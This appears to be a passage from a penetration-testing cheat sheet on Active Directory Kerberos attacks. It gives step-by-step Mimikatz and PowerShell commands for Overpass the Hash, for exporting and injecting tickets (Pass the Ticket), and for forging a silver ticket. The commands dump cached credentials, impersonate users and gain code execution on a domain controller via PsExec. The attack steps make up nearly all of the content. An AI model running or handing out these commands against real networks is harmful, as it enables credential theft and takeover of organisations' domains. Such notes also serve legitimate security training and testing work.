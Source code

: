 {% endcode %}

## Overpass the Hash

"Over" abuse a NTLM user hash to gain Kerberos TGT or service ticket.

{% code overflow="wrap" %}
```bash
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
mimikatz > sekurlsa::logonpasswords # note if there is NTLM hash of cached passwords
mimikatz > sekurlsa::pth /user:admin /domain:dom.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
# Now on Powershell we issue a command that requires domain permissions such as net use
PS > net use \\dc01
# If we check Kerberos tickets, we should have some
PS > klist 
# We converted NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication
PS > .\PsExec.exe \\dc01 cmd.exe
# We reused the TGT created to obtain code execution on the domain controller above
```
{% endcode %}

## Pass the Ticket

Forge our own TGS to use that SPN on any multiple servers where the service is present.

{% code overflow="wrap" %}
```bash
whoami
domain\lowuser
# verify that we are unable to access the resource on WEB04
PS C:\Windows\system32> ls \\web\backup
ls : Access to the path '\\web\backup' is denied.
mimikatz #privilege::debug
Privilege '20' OK
# export all the TGT/TGS from memory
mimikatz #sekurlsa::tickets /export
# We can verify newly generated tickets with dir, filtering out on the kirbi extension
PS C:\Tools> dir *.kirbi
# Pick any TGS ticket referred to hostname/resource desired and inject it through Mimikatz
mimikatz # kerberos::ptt [0;12bd0]...user@cifs-web.kirbi
# we should expect the ticket in our session when running klist.
PS C:\Tools> klist
# Let's confirm we have been granted access to the restricted shared folder
PS C:\Tools> ls \\web\backup

# Obtain SID
whoami /user #SID defining the domain is the string except the RID at the end (last -XXXX)
# Flush Kerberos tickets
mimikatz > kerberos::purge
# Check there are no Kerberos tickets
mimikatz > kerberos::list
# Craft a Silver Ticket --- /rc4 is the password hash of the service account (IIS, MSSQL, etc.)
mimikatz > kerberos::golden /user:usuario /domain:dom.com /sid:$SID /target:web.dom.com /service:HTTP /rc4:E2B4... /ptt
kerberos::list
# With this ticket loaded into memory, we can gain access to any information based on the group memberships of the ticket
```
{% endcode %}


[192.168.50.73]: PS C:\Users\jen\Documents> whoami 